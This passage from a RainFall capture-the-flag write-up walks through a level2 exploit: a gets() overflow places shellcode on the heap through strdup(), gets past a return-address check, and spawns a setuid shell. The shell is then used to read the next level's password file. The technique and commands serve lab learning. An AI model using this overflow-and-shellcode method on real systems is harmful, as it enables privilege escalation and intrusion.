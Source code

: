 ## Exploitation Implementation

### 12. Testing the Exploit
```bash
level2@RainFall:~$ (cat /tmp/payload2; cat) | ./level2
# Program executes, processes input, calls strdup(), then returns...
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

**Success!**
1. **gets() overflow**: 84-byte payload overflows buffer and corrupts return address
2. **Security check bypass**: Return address 0x0804a008 passes validation (not 0xb...)
3. **Normal execution**: puts() echoes input, strdup() copies to heap
4. **Heap shellcode**: strdup() places our shellcode at 0x0804a008
5. **Control transfer**: Function return jumps to heap address
6. **Shellcode execution**: /bin/sh spawned with level3 privileges

### 13. Understanding the Complete Execution Flow
```bash
# Step-by-step execution analysis:

1. p() function called, allocates 104-byte stack frame
2. fflush(stdout) ensures clean output
3. gets(buffer) reads 84 bytes:
   - Bytes 0-20: Shellcode
   - Bytes 21-79: Padding  
   - Bytes 80-83: Return address (0x0804a008)

4. Security check:
   - Loads corrupted return address: 0x0804a008
   - Masks: 0x0804a008 & 0xb0000000 = 0x00000000
   - Compares: 0x00000000 != 0xb0000000 ✓ (passes)

5. Normal execution path:
   - puts(buffer) outputs our input (shellcode + padding)
   - strdup(buffer) allocates heap memory at 0x0804a008
   - Copies entire 84-byte input to heap (including shellcode!)

6. Function return:
   - leave/ret instructions execute
   - ret loads corrupted return address: 0x0804a008  
   - CPU jumps to 0x0804a008 (heap memory)

7. Shellcode execution:
   - execve("/bin//sh", NULL, NULL) called
   - Shell spawned with setuid privileges
```
